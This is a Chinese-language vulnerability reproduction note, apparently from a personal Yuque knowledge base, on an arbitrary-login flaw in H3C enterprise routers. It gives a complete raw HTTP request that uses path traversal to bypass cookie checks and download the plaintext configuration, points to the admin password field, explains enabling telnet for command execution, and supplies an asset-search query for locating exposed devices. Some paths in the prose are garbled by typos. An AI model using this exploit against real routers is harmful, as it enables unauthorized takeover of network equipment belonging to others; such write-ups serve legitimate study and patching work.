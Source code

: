 # H3C多系列路由器存在任意用户登录漏洞

# 一、漏洞简介
 H3C 企业路由器(ERN ERG2N GR 系列》存在任意用户登录和命令 执行漏洞，攻击者可通过访问nserLog in.asp/actionpalicy_status1./xxxx.cfg 接口，xxxx为设备型号（比如设备型号为 ER5200G2 ，即访问userLog in.asp/../actionpolicy_status/../ER5200G2.cfg），统过COOKIE 验证，进行目录穿越，获取 设备的明文配置文件，配置中有明文的web 管理员账号admin 的密码，登陆后台 即可通过开启 telenet 获取命令执行权限  

# 二、影响版本
+ H3C多系列路由器

# 三、资产测绘
+ hunter`app.name="H3C Router Management"`
+ 登录页面

![1693536029401-fe49c297-e04b-42c4-8935-a0a3181716cd.png](./img/MqXw12ts-2hI9P3j/1693536029401-fe49c297-e04b-42c4-8935-a0a3181716cd-205034.png)

# 四、漏洞复现
1. 访问userLog in.asp/actionpalicy_status1./xxxx.cfg 接口，xxxx为设备型号（比如设备型号为 ER5200G2 ，即访问userLog in.asp/../actionpolicy_status/../ER5200G2.cfg）
2. 根据设备型号修改payload

```java
GET /userLogin.asp/../actionpolicy_status/../ER2200G2.cfg HTTP/1.1
User-Agent: Java/1.8.0_381
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

![1693536147392-494bee2a-1d0a-4c59-b943-d9628a7a00ef.png](./img/MqXw12ts-2hI9P3j/1693536147392-494bee2a-1d0a-4c59-b943-d9628a7a00ef-397355.png)

3. <font style="color:rgba(0, 0, 0, 0.9);">密码就在</font>`<font style="color:rgba(0, 0, 0, 0.9);">vtypasswd</font>`<font style="color:rgba(0, 0, 0, 0.9);">字段</font>

![1693536224274-36454c0c-1465-42d4-bb2a-8898f177df6a.png](./img/MqXw12ts-2hI9P3j/1693536224274-36454c0c-1465-42d4-bb2a-8898f177df6a-471592.png)

4. 账户为`admin`

![1693536284723-c565c1e4-eb3c-434d-8d79-7a0cdb06204b.png](./img/MqXw12ts-2hI9P3j/1693536284723-c565c1e4-eb3c-434d-8d79-7a0cdb06204b-398196.png)

5. 可在`远程管理`->`远程telnet管理`处开启telnet获取命令执行权限

![1693536401401-e5557bea-3c29-49ca-bdf4-9f1b8e4d2cdf.png](./img/MqXw12ts-2hI9P3j/1693536401401-e5557bea-3c29-49ca-bdf4-9f1b8e4d2cdf-114600.png)



> 更新: 2024-02-29 23:57:19  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/wgzkiefvdexpuyq1>